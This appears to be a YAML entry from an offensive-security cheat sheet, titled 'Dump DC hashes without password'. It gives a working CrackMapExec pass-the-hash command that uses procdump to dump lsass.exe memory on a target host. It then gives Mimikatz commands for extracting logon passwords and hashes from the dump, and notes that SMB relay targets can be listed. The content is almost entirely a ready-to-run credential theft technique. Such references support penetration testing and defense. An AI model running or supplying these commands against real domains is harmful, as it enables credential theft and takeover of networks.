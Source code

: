 ```yaml
---
title: |
  Dump DC hashes without password
description: |
  "CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks." - https://github.com/byt3bl33d3r/CrackMapExec/wiki. This command will enumerate domain groups, local groups, logged on users, relative identifiers (RIDs), sessions, domain users, SMB shares/permissions, and get the domain password policy. Create a list of targets with SMB Signing disabled (required to relay).

  Retrieve lsass.dmp and extract hashes with for example Mimikatz.

  Other command:

    mimikatz> sekurlsa::minidump lsass.dmp

    sekurlsa::logonPasswords

command: |
  crackmapexec smb 172.28.2.100 -u <username> -d <domain> -H <NTLM hash> -x 'C:\Windows\temp\procdump.exe -accepteula -ma lsass.exe C:\Windows\temp\lsass.dmp'
items:
  - Username
  - Hash
services:
  - SMB
OS:
  - Linux
attack_types:
  - Exploitation
references:
  - https://github.com/byt3bl33d3r/CrackMapExec
  - https://github.com/byt3bl33d3r/CrackMapExec/wiki
---
```


